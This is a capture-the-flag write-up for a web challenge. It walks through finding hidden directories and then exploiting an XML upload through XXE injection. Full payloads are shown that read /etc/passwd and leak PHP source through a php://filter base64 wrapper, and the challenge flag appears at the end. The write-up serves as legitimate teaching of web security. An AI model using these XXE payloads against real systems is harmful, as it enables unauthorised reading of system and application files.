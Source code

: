 # X marks Louis's treasure

### burden_bear

**Category: Web**

> Finding a web page that leads to Louis' hidden treasure on his server HEHEHEHE
>
>  [chals.whitehacks.ctf.sg:50101](http://chals.whitehacks.ctf.sg:50101/)

The login page hints at some kind of SQL injection attack, but basic attacks don't seem to yield any results. Looking at the source code, we find a HTML comment: 

```html
<!-- Or is it here in <img src="./cc665cc8baf65ba4f4b28dafdc3cf5a7/da4446ea44be23905b233381e45dd1f1/"-->
```

Accessing that link and inspecting element again yields another comment:

```html
<!--<a href="../secret.html"></a>-->
```

Secret.html contains yet another comment:

```html
<!--Wanna see more? Figure out where you should go? be a DIR-ean LISTer-->
```

I figured the challenge required listing the `./cc665cc8baf65ba4f4b28dafdc3cf5a7` directory, so I let [`dirb`](https://tools.kali.org/web-applications/dirb) run on the URL while looking at other challenges. However I later realized that directory listings were enabled on `./cc665cc8baf65ba4f4b28dafdc3cf5a7` so using dirb was unnecessary. 

Viewing the directory listing reveals a few interesting files:

- `upload.php`
- `uploads/user.xml`

`upload.php` features a file upload form, while `user.xml` has the following contents:

```xml
<root>
    <username>l0j0</username>
    <password>super_secr3t</password>
</root>
```

It is thus likely that this app is vulnerable to [XXE](https://portswigger.net/web-security/xxe). To verify this, we can try reading `/etc/passwd`

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>
    <username>l0j0</username>
    <password>&xxe;</password>
</root>
```

Great! A list of users is returned in the password field.

Now, we can try changing the file path to obtain the flag. However, this error is returned: `failed to load external entity "file:///flag.txt" in **/var/www/app/cc665cc8baf65ba4f4b28dafdc3cf5a7/upload.php** on line **15**`. We can try to read the source code of `upload.php` for some clues. However, we cannot simply read the code as it will be executed by the PHP engine when it is injected into the page, so we have to encode it. Fortunately,  we can use the `php://filter` feature to encode files for us. 

```xml-dtd
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/app/cc665cc8baf65ba4f4b28dafdc3cf5a7/upload.php"> ]>
```

Decoding the base64, we find the following comment:

```html
<!-- You won't believe it, but the flag is in /home/l0j0/flag.txt - you'll never get it though! -->
```

Note: This comment can also be found by HTML inspecting the page :<

Setting the XXE path to `/home/l0j0/flag.txt` reveals the flag: `WH2021{th3_sup3r_s3cr3t_tr34sur3!}`



